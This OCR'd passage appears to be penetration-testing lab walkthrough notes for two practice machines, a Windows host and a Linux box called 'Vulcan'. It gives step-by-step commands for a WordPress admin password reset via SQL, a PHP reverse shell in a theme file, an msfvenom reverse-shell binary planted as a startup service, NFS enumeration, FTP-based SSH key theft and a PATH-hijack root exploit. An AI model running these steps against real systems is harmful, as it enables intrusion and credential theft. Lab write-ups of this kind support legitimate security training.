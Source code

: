 4. Run UPDATE `wp_users` SET `user_pass`= MD5('bypassed') WHERE
`user_login`='admin';
1. Login to http://192.168.XX.46/blog/wp-admin/
2. Go to Theme Editor and edit 404.php
3. Use PHP Reverse Shell and listen to your machine
4.  User shell!
Privilege Escalation to Root
1. A System Scheduler service is installed in the machine located at C:\Program
Files\SystemScheduler\WScheduler.exe and vulnerable to
https://www.exploit-db.com/exploits/45072
1. Its permission is Everyone [WriteData/CreateFiles] and it will automatically run in startup
because HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
1. Create an exe file using msfvenom - msfvenom -p windows/shell_reverse_tcp
LHOST=192.168.XX.XX LPORT=443 -f exe -a x86 --platform win > WScheduler.exe
1. Backup the original schedule in the target machine - move "C:\Program
Files\SystemScheduler\WScheduler.exe" "C:\Program
Files\SystemScheduler\WScheduler.back"
1. Copy your reverse shell to target machine - copy \\192.168.XX.XX\LOVE\WScheduler.exe
"C:\Program Files\SystemScheduler\"
1. Restart the target machine - shutdown /R
2. Root shell!

```bash
Vulcan (.53)
```
Operating SystemLinux
Points20
Similar Machine (User)TryHackMe’s Kenobi
Similar Machine (Root)
Exploit in Getting User
1. Port 20048 (mountd) is open so run showmount -e 192.168.XX.53
2. Create a folder in your machine and run - mount -t nfs 192.168.XX.53:/ your_folder/ -no lock
3. cd _0_tyken
4. Read notes.txt and you’ll learn that the user tyken created an SSH key so you have to get it
5. FTP service is vulnerable to https://www.exploit-db.com/exploits/36803 (Unauth RCE)
6. nc 192.168.XX.53 21 then cpfr /home/tyken/.ssh/id_rsa then cpto /var/tmp/id_rsa
7. Connect to SSH - ssh -i id_rsa tyken@192.168.XX.53
8. User shell!
Privilege Escalation to Root
1. Target machine is running a keybase-redirector and is vulnerable to
https://www.exploit-db.com/exploits/46044
1. Create a fusermount.c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main(int argc, char **argv)
{
setreuid(0,0);
system("/usr/bin/touch /w00t");
return(0);
}
1. Compile it - gcc -Wall fusermount.c -o fusermount and upload it to target machine
2. Prepend the PATH env variable with a dot and execute keybase-redirector which in turn will
execute the malicious fusermount binary as root. - env PATH=.:$PATH
/usr/bin/keybase-redirector /keybase
1. Enter the control-c sequence to kill the application and run the ./w00t binary.
2. Root shell!
